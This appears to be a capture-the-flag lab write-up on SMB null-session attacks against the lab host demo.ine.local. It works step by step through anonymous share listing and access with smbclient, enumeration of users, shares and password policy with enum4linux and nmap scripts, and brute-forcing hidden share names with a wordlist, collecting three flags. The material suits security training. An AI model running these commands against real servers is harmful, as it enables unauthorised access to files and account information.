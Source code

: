 # Null Session

### Flag 1

Display info about windows machine<br>
-A IP_ADDRESS
```
nmblookup -A demo.ine.local
```

File server active

![1.1](./imgs/1.1.png)

Same as windows command:
```
nbtstat -A demo.ine.local
```

Enumerate file shares<br>
-L list services<br>
-N no password
```
smbclient -L //demo.ine.local -N
```

![1.2](./imgs/1.2.png)

Access public share and get flag
```
smbclient //demo.ine.local/public -N
cd .hidden
get flag_1
```

![1.3](./imgs/1.3.png)

Same as windows command:
```
NET VIEW demo.ine.local
NET USE \\demo.ine.local\$IPC '' /u:''
```

### Flag 2

-A fully enumerate target
```
enum4linux -A demo.ine.local
```

or

-S shares
-U users
-P password policy
```
enum4linux -S demo.ine.local
enum4linux -U demo.ine.local
enum4linux -P demo.ine.local
```
or 

```
nmap demo.ine.local --script=smb-enum-shares
nmap demo.ine.local --script=smb-enum-users
```

Users:

![2.1](./imgs/2.1.png)

Password policy:

![2.2](./imgs/2.2.png)

Michael and Raymond don't show up here so they're non-browsable

![2.3](./imgs/2.3.png)

Access denied for Raymond's share

Access Michael's share and get flag
```
smbclient //demo.ine.local/michael -N
cd dir
cd flag_2
get -
```

![2.4](./imgs/2.4.png)

### Flag 3

Brute force share enumeration
-s SHARE_LIST 
```
enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local
```

hidden share "shadow1" found

![3.1](./imgs/3.1.png)

```
smbclient //demo.ine.local/shadow1 -N
get flag_3 -
```

![3.2](./imgs/3.2.png)